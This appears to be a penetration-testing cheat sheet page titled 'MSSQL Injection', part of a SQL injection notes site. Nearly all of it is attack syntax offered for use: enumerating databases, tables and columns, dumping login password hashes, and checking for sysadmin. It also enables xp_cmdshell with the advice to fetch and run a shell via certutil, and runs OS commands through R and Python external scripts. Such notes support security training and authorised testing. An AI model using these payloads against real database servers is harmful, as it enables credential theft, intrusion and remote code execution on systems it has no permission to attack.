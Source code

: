```yaml
---
title: MSSQL Injection
parent: SQL Injection
layout: default
nav_order: 2
---
```


## Connecting
To connect to open port 1433:\
`impacket-mssqlclient -p 1433 -windows-auth domain/user:pass@IP`

## Querying / Exploiting
For MySQL/MSSQL: `select @@version` can return the version, others will error

check can how many columns: `order by x`, keep on increasing until error. last number will be number of columns

Concatenating (concatenate put 2 together, STRING_AGG put all the values in one column as one): `concat(name1,':',name2)` or `STRING_AGG(column_name, ',')` (only 2017+)

To comment, use `xx--`

Show all **databases**: `SELECT name FROM master..sysdatabases;`\
show the database in the current one: `SELECT DB_NAME()`

Show the **table name**: `SELECT name FROM master..sysobjects WHERE xtype = 'U';`\
(change xtype to V as well for view)\
OR for other DB: `SELECT name FROM someotherdb..sysobjects WHERE xtype = 'U';`

Show the **column name** if table name is mytable:\
`SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');`\
(For current DB only)

Finally select object use `select * from db..table;`

See which user: `SELECT system_user;` OR `SELECT user_name();`

Check the permissions you have: `SELECT * from sys.fn_my_permissions(null, 'database')`

Password hash:\
MSSQL 2000: `SELECT name, password FROM master..sysxlogins`\
MSSQL 2005: `SELECT name, password_hash FROM master.sys.sql_logins`\
**Note: If doesn't work as expected, use the binary converted:**\
MSSQL 2000: `SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins`\
MSSQL 2005: `SELECT name + ':' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins`

Check if you are sysadmin: `SELECT is_srvrolemember('sysadmin');`

XP_CMDSHELL (**If you are doing SQL injection, can put a valid query then `;` as a separator then do all the following, in the end use certutil to download shell and run**):
`EXECUTE sp_configure 'show advanced options', 1;`\
`reconfigure;`\
`EXECUTE sp_configure 'xp_cmdshell', 1;`\
`reconfigure;`\
`EXEC xp_cmdshell 'dir';`

If you can execute external script, can run R or Python RCE using the following:\
**R**: `EXEC sp_execute_external_script @language=N'R', @script=N'OutputDataSet - data.frame(system("cmd.exe /c ipconfig",intern=T))' WITH RESULT SETS (([cmd_out] text));`\
**Python**: `EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("ipconfig"))'`